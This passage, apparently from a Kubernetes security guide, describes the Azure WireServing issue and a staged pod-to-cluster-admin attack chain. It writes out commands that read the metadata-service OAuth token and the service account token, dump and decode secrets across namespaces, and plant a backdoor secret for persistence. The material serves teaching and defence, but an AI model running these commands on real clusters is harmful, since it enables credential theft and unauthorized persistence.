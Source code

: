 ### WireServing Vulnerability (Azure Specific)

The WireServing vulnerability allows privilege escalation in AKS:

```bash
# Check for vulnerable configurations
kubectl get pods -A -o json | jq '.items[] | select(.spec.hostNetwork == true)'

# Test metadata service access
curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true

# Exploit script (conceptual)
# This vulnerability has been patched, but serves as an example
```

---

## Advanced Attack Scenarios

### Multi-Stage Attack Chain Example

**Scenario: From Pod Compromise to Cluster Admin**

```bash
# Stage 1: Initial foothold (RCE in web application)
# Assume we have shell access in a pod

# Stage 2: Container enumeration
find / 2>/dev/null | grep -i kube
env | grep -i kube
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Stage 3: API server discovery and authentication
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT

# Stage 4: Permission enumeration
curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
     --header "Authorization: Bearer $TOKEN" \
     -X GET $APISERVER/api/v1/namespaces/default/pods

# Stage 5: Lateral movement via service account token theft
kubectl get secrets --all-namespaces
kubectl get secret high-privilege-token -o jsonpath='{.data.token}' | base64 -d

# Stage 6: Privilege escalation
# Use escalate verb to create cluster-admin role
# Or exploit RBAC misconfigurations

# Stage 7: Persistence and data exfiltration
kubectl create secret generic backdoor --from-literal=token=$ADMIN_TOKEN
kubectl apply -f persistent-backdoor.yaml
```
